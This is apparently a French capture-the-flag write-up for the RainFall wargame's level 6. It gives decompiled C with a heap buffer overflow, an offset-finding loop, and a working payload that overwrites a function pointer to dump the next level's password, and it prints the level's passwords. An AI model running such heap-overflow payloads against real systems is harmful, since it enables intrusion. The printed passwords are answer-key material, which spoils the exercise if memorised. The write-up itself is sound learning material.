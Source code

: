 # Level 6

pass : `d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31`

## Sources :

```c
#include <stdlib.h>

void	n() {  // 0x08048454
	system("/bin/cat /hom/user/level7/.pass");
}

void	m(char *str) {  // 0x08048468
	puts("Nope");
}

void	main(int ac, char **av) {  // 0x0804847c
  void *(*ptr_function)(char *);  // esp+0x18
  char *buf;  // esp+0x1c
  
	buf = malloc(64);
	ptr_function = malloc(4);  
	ptr_function = &m;
	strcpy(buf, av[1]);
	(*ptr_function)(buf);
}
```

## Recherche :

> On va essayer de faire segfaut le programme jusqu'à ce que l'`EIP` soit remplacée par l'addresse de `n` (`0x08048454`)

### Malloc exploitation

On écrit un petite boucle :

```sh
for((i=64; i<80; i++)); do echo "index $i"; ./level6 `(perl -e 'print "A"x('$i')."\x54\x84\x04\x08"')` ;done
```

```sh
index 71
Segmentation fault (core dumped)
index 72
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
index 73
Segmentation fault (core dumped)
index 74
Segmentation fault (core dumped)
```

### Explication

En fait, ce qu'on fait ici est simple :

Malloc utilise une structure pour enregistrer nos informations alouées, pour un tronçon (chunk) aloué, on utiliser 4 bytes, 3 pour la taille allignée à 8, et le dernier pour le status (si le chunk est free ou non).

Même si l'on utilise seulement 4 bytes, la structure en prendra 8 pour être sûr de garder un allignement correct avec les pages de mémoire (memory pages).

![](https://www.win.tue.nl/~aeb/linux/hh/malloc.png)

Donc dans notre cas, on écrit au total 76 bytes :

- `64` pour le premier appel de `malloc()`

- `4` pour réécrire les information du chunk

- `4` autres pour réécrire le reste de la structure de malloc nécessaire pour l'alignement

- `4` pour remplir le second appel à `malloc()`, qui va être exécuté

  On arrive bien à notre offset de `72`.

## Exploit :

```shell
level6@RainFall:~$ ./level6 $(python -c 'print "A"*72+"\x54\x84\x04\x08"') 
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

L'`EIP` à bien été remplacé par notre valeur avec un offset de 72. Et on a trouvé le pass pour le level suivant : `f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d`

## Documentation :

- [Heap execution exploitation](https://www.win.tue.nl/~aeb/linux/hh/hh.html#toc11.1)